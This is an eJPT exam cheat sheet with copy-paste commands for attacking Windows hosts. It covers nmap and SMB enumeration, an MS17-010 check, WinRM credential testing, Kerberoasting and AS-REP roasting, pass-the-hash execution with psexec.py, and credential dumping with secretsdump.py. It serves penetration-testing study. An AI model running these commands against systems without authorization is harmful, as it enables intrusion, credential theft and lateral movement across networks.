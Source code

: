 ## Minimal cheat sheet (one-screen flow)
```bash
# Vars
export TARGET=10.10.10.5; export DC_IP=10.10.10.10; export DOMAIN=corp.local; export USER=user; export PASS='Password123!'

# Scan
nmap -Pn -n -sS -sV -O -p- -oA scans/${TARGET}_full $TARGET

# SMB enum
nmap -Pn -p445 --script smb-os-discovery,smb2-security-mode,smb-protocols,smb-enum-users,smb-enum-shares,smb-vuln-ms17-010 -oA scans/${TARGET}_smb $TARGET
smbclient -N -L "//$TARGET"
smbmap -H $TARGET
lookupsid.py -no-pass anonymous@$TARGET

# RDP/WinRM
nmap -p3389 --script rdp-enum-encryption,rdp-ntlm-info -oA scans/${TARGET}_rdp $TARGET
nmap -p5985,5986 $TARGET
crackmapexec winrm $TARGET -u "$USER" -p "$PASS"

# AD roast (if domain)
GetUserSPNs.py -request -dc-ip $DC_IP $DOMAIN/$USER:$PASS
GetNPUsers.py $DOMAIN/ -dc-ip $DC_IP -no-pass -usersfile users.txt

# Remote exec (with creds/hash)
psexec.py $DOMAIN/$USER@$TARGET -hashes 00000000000000000000000000000000:NTLM_HASH
evil-winrm -i $TARGET -u "$USER" -p "$PASS"

# Cred dump (authorized)
secretsdump.py $DOMAIN/$USER:$PASS@$TARGET
```

## Summary
- This overview frames the Windows attack surface you’ll assess in eJPT: service exposure (SMB/RDP/WinRM), authentication weaknesses (NTLM/relay/LLMNR), patch/state vulns (MS17-010/BlueKeep), and common local privesc issues (services, installers, tasks).
- Use a systematic flow: identify Windows hosts, enumerate SMB/RPC and RDP/WinRM, validate high-impact vulns/misconfigs, leverage AD roasting where applicable, then proceed to credential use/exec and local privesc.
- The included commands and toolset cover the typical exam workflows and provide quick, copy-paste checks for high-value findings and safe validation.